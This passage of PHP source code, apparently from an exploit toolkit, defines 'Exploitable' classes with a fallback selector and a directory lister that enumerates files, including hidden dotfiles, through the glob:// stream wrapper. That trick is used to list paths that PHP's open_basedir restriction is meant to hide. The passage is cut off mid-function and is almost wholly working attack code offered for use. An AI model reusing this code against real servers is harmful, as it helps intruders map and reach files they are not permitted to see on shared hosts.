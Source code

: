 ```php
			} else {
				$relPath[0] = './' . $relPath[0];
			}
		}
	}
	return implode('/', $relPath);
}
 
function fallback($classes) {
	foreach ($classes as $class) {
		$object = new $class;
		if ($object->isAvailable()) {
			return $object;
		}
	}
	return new NoExploit;
}
 
// Core classes
interface Exploitable {
	function isAvailable();
	function getDescription();
}
 
class NoExploit implements Exploitable {
	function isAvailable() {
		return true;
	}
	function getDescription() {
		return 'No exploit is available.';
	}
}
 
abstract class DirectoryLister implements Exploitable {
	var $currentPath;
 
	function isAvailable() {}
	function getDescription() {}
	function getFileList() {}
	function setCurrentPath($currentPath) {
		$this->currentPath = $currentPath;
	}
	function getCurrentPath() {
		return $this->currentPath;
	}
}
 
class GlobWrapperDirectoryLister extends DirectoryLister {
	function isAvailable() {
		return stripos(PHP_OS, 'win') === FALSE && in_array('glob', stream_get_wrappers());
	}
	function getDescription() {
		return 'Directory listing via glob pattern';
	}
	function getFileList() {
		$file_list = array();
		// normal files
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}*");
		foreach ($it as $f) {
			$file_list[] = $f->__toString();
		}
		// special files (starting with a dot(.))
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}.*");
```
